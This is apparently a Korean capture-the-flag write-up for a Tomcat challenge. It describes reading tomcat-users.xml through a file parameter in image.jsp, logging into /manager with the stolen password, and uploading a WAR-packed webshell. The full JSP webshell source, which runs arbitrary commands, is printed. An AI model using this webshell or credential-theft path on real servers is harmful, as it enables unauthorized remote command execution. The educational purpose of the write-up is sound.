 ## tomcat_manager
---

문제 파일에서 ROOT.war 파일이 있다. 

war 파일은 확장자를 zip으로 바꾸면 zip 파일이 되고 그 반대의 경우도 마찬가지다.

zip 파일로 바꾸면 index.jsp, image.jsp 등이 보인다.


## Solution
---

우선 image.jsp 파일에서 file로 읽을 파일을 입력받는다.

기본 값은 resources/working.png 이다.

이 부분을 이용해서 우선 tomcat-users.xml 파일을 읽어서 tomcat의 비밀번호를 흭득했다. 

처음엔 directory traversal 문제인줄 알고 플래그를 읽으려고 했으나 플래그는 실행 파일이여서 읽을 수가 없다!

<br>

tomcat 사용자의 비밀번호를 구한 다음 이 비밀번호를 통해 tomcat에 접속해야 한다. 

유저 이름은 tomcat-users.xml을 보면 된다. tomcat이다.

이 부분을 몰라서 헤맸다. 검색하면 /manager 페이지에 접속해야 한다.

<br>

웹셸을 올려야 될 것 같아서 찾아보았다.

파일 업로드 취약점 : <a href="https://m.blog.naver.com/sjhmc9695/221996754470" target="_blank">m.blog.naver.com/sjhmc9695/221996754470</a>

위 페이지에 있는 웹셸로는 안되서 따로 찾아서 풀었다.

<br>

webshell : <a href="https://github.com/BustedSec/webshell/blob/master/webshell.war" target="_blank">github.com/BustedSec/webshell/blob/master/webshell.war</a>

<br>

```jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

<br>

이 웹셸을 압축하여 war 파일로 확장자를 변경한 후 업로드 한 뒤 명령어를 입력하면 된다.
